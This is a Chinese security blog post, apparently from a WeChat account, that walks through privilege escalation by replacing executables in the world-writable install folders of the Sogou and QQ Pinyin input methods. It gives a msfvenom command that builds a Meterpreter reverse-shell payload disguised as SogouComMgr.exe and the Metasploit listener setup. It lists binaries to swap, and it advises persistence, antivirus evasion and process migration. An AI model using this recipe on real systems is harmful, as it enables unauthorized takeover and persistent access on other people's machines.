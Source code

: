 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/R80F8I46CggdiknvmuEGJQ)
| 

**声明：**该公众号大部分文章来自作者日常学习笔记，也有少部分文章是经过原作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。

请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。

 |

**0x01 前言**

搜狗拼音输入法是目前国内使用人数最多的一款，但仍然会存在一些安全问题，在安装过程中默认给了 Everyone 完全控制权限，Everyone 为所有用户，也就是说我们可以对搜狗拼音输入法安装目录下的任何文件进行修改 / 删除和写入，所以能达到我们权限提升的目的。

虽然这种提权方式有些年头了，但不知道为什么搜狗一直没有修复这个问题。

**0x02 测试环境**

```
操作系统：Windows Server 2016 Datacenter
软件版本：搜狗拼音输入法 9.5.0.3517、QQ拼音输入法6.4.5804.400
搜狗拼音默认安装路径：C:\Program Files (x86)\SogouInput\
QQ拼音默认安装路径：C:\Program Files (x86)\Tencent\QQPinyin\
搜狗、QQ输入法进程名：SGTool.exe、SGDownload.exe、pinyinup.exe、SogouCloud.exe、SogouComMgr.exe、SGRender.exe、QQPYUserCenter.exe、QQPYLiveUp.exe、QQPYConfig.exe、QQPYToolbox.exe、QQPYCloud.exe......
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdBctkHcAAeiaQUDGdJWhMBxicrk34EtxsI2O88kBd0QbMJlfiaRfQK977LltAhiaziannRSCicqHRxPXicw/640?wx_fmt=png)

**0x03 搜狗拼音输入法**

使用 tasklist /svc 命令查看搜狗相关进程，或者直接跳转到 %ProgramFiles(x86)% 目录下看是否安装的有搜狗输入法。  

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdBctkHcAAeiaQUDGdJWhMBxN8MCiblAtQyspUFLmicSNQOkbPCexUKwFY4EiblibUH5dyAOdY8BDC7Pow/640?wx_fmt=png)

接着再用 icacls 命令查看搜狗输入法安装目录 C:\Program Files (x86)\SogouInput\9.5.0.3517\ 的权限配置。

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdBctkHcAAeiaQUDGdJWhMBxyOenzndBTq8NvqPsvRV2aiar5Hq9VVwb2Ie7IBNSB7Xqu4Tk04lt7pA/640?wx_fmt=png)

**官方文档：**https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc753525(v=ws.11)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdBctkHcAAeiaQUDGdJWhMBxicqwspfRotY1WK6VFOcL4FWO8rdwmpZxN8uWkmIalxJngrMh1f4sBpA/640?wx_fmt=png)

确定搜狗输入法安装目录具备 Everyone 完全控制权限后就可以生成 MSF 攻击载荷并设置好相关参数执行监听，然后替换目标机器常用的搜狗相关文件，等管理员使用搜狗输入法时运行到我们替换的文件即可得到会话。

```
root@kali:~# msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.0.120 lport=443 -f exe > /var/www/html/SogouComMgr.exe

msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.0.120
msf5 exploit(multi/handler) > set lport 443
msf5 exploit(multi/handler) > set autorunscript post/windows/manage/migrate NAME=notepad.exe
msf5 exploit(multi/handler) > exploit
```

**其它搜狗拼音输入法可替换文件：**

```
搜狗输入法 - 属性设置工具：
%ProgramFiles(x86)%\SogouInput\9.5.0.3517\SGTool.exe 
搜狗输入法 - 修复更新工具：
%ProgramFiles(x86)%\SogouInput\9.5.0.3517\SGDownload.exe
搜狗输入法 - 网络更新程序：
%ProgramFiles(x86)%\SogouInput\9.5.0.3517\pinyinup.exe
搜狗输入法 - 云计算代理：
%ProgramFiles(x86)%\SogouInput\9.5.0.3517\SogouCloud.exe
搜狗输入法 - 云计算代理：
%ProgramFiles(x86)%\SogouInput\9.5.0.3517\SearchCand.dll
搜狗输入法 - 工具箱：
%ProgramFiles(x86)%\SogouInput\Components\SogouComMgr.exe
搜狗输入法 - 用户登录：
%ProgramFiles(x86)%\SogouInput\Components\SGRender\1.0.0.56\SGRender.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdBctkHcAAeiaQUDGdJWhMBxLP2aIGnQx7KDTjPPmTQu25cvLQWlj8rMFU3OASC52S8IvYCTro7xTg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdBctkHcAAeiaQUDGdJWhMBxeNicibKu1Nr0iaia7Eba9zjWuuPSzftLC04nVYNmegrpicbfpnrjnKxo2jQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdBctkHcAAeiaQUDGdJWhMBx6fR234vl9rv3tquHRLKUBNUcvNGE3ukInA3P8JCo7cb8T0LEicr1QvQ/640?wx_fmt=png)

**0x04 搜狗拼音输入法**

QQ 拼音个人中心 QQPYUserCenter.exe 被我们替换后直接切换到 QQ 拼音输入法即可得到 Meterpreter 会话，其它文件可能还得等管理员执行相应操作后才能得到会话。

```
QQ拼音输入法 - 个人中心：

%ProgramFiles(x86)%\Tencent\QQPinyin\6.4.5804.400\QQPYUserCenter.exe
QQ拼音输入法 - 升级工具：
%ProgramFiles(x86)%\Tencent\QQPinyin\6.4.5804.400\QQPYLiveUp.exe
QQ拼音输入法 - 属性设置：
%ProgramFiles(x86)%\Tencent\QQPinyin\6.4.5804.400\QQPYConfig.exe
QQ拼音输入法 - 工具箱：
%ProgramFiles(x86)%\Tencent\QQPinyin\6.4.5804.400\QQPYToolbox.exe
QQ拼音云输入 - 客户端：
%ProgramFiles(x86)%\Tencent\QQPinyin\6.4.5804.400\QQPYCloud.exe
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdBctkHcAAeiaQUDGdJWhMBxQ32vVl5FcqV4xptc9czm4mniaoPMYk3rtxymam9hIBbUU8vBsA8Y2vw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOdBctkHcAAeiaQUDGdJWhMBxk8scSCZMoMnC2KGp18rA3KSzMCRgvw7IcGhYvVBWxrp2UnAiamqUUvA/640?wx_fmt=png)

**0x05 注意事项**

1.  如果目标机器为 XP、2003 系统的话我们就可以直接利用 lpk.dll 劫持来进行权限提升可能会更好；  
    
2.  替换文件前要先备份好我们要替换的搜狗拼音输入法相关文件，便于我们后期将其恢复到原始状态；
    
3.  最终获取的 Meterpreter 会话权限取决于目标服务器登录的是哪个用户来执行我们的搜狗拼音输入法；
    
4.  同时也可以利用目标机器上的搜狗、QQ 等输入法来进行权限维持，有安全防护还得自己做下免杀处理；
    
5.  防止替换后的文件在运行后就退出而导致 Meterpreter 会话断开，笔者建议用 migrate 模块注入到其它进程中运行；
    

关注公众号回复 “9527” 可免费获取一套 HTB 靶场文档和视频，“1120” 安全参考等安全杂志 PDF 电子版，“1208” 个人常用高效爆破字典，“0221”2020 年酒仙桥文章打包，还在等什么？赶紧点击下方名片关注学习吧！

公众号

* * *

**推 荐 阅 读**

  

  

  

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcAcRDPBsTMEQ0pGhzmYrBp7pvhtHnb0sJiaBzhHIILwpLtxYnPjqKmibA/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247487086&idx=1&sn=37fa19dd8ddad930c0d60c84e63f7892&chksm=cfa6aa7df8d1236bb49410e03a1678d69d43014893a597a6690a9a97af6eb06c93e860aa6836&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcIJDWu9lMmvjKulJ1TxiavKVzyum8jfLVjSYI21rq57uueQafg0LSTCA/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486961&idx=1&sn=d02db4cfe2bdf3027415c76d17375f50&chksm=cfa6a9e2f8d120f4c9e4d8f1a7cd50a1121253cb28cc3222595e268bd869effcbb09658221ec&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf8eyzKWPF5pVok5vsp74xolhlyLt6UPab7jQddW6ywSs7ibSeMAiae8TXWjHyej0rmzO5iaZCYicSgxg/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=Mzg4NTUwMzM1Ng==&mid=2247486327&idx=1&sn=71fc57dc96c7e3b1806993ad0a12794a&chksm=cfa6af64f8d1267259efd56edab4ad3cd43331ec53d3e029311bae1da987b2319a3cb9c0970e&scene=21#wechat_redirect)

**欢 迎 私 下 骚 扰**

  

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/XOPdGZ2MYOdSMdwH23ehXbQrbUlOvt6Y0G8fqI9wh7f3J29AHLwmxjIicpxcjiaF2icmzsFu0QYcteUg93sgeWGpA/640?wx_fmt=jpeg)